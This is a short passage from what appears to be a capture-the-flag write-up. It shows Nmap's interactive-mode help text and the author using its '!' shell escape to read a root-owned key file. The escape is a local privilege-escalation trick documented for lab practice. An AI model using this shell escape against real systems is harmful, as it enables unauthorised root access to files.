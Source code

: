 ```
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap_path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24
```
Running a command with ```!``` at the beginning allows me to run a shell command. And like that, I can read the last key! 
```
nmap> !wc -c /root/key-3-of-3.txt
!wc -c /root/key-3-of-3.txt
33 /root/key-3-of-3.txt
waiting to reap child : No child processes
```